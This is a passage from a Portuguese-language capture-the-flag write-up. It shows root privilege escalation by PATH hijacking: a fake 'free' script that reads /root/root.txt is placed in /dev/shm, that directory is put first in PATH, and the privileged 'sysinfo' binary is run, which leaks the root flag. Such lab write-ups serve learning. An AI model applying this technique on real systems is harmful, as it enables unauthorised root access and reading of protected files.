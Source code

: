 E foi exatamente o que fiz porque fazer a engenharia reversa apropriada iria demorar mais do que testar essa teoria. Primeiro criei um simples bash script que iria ler a flag do root e o chamei de free. Com chmod o dei permissão de executável. Usando export PATH=/dev/shm:$PATH, eu altero o valor da variável $PATH para incluir o caminho do meu diretório /dev/shm na frente de todos outros restantes. Assim, quando sysinfo chamasse free, ia encontrar meu script e ia executa-lo com permissões de root.

```
theseus@ubuntu:/dev/shm$ echo "cat /root/root.txt" > free
theseus@ubuntu:/dev/shm$ chmod +x free 
theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
theseus@ubuntu:/dev/shm$ sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
[...]

====================Disk Info====================
Disk /dev/loop0: 3.7 MiB, 3862528 bytes, 7544 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

[...]

====================CPU Info====================
processor	: 0
[...]


====================MEM Usage=====================
fcef518fe807b4bdf55204e9e75f93ca
```

E ao invés das informações sobre o uso de memória na máquina eu obtive a flag root: fcef518fe807b4bdf55204e9e75f93ca
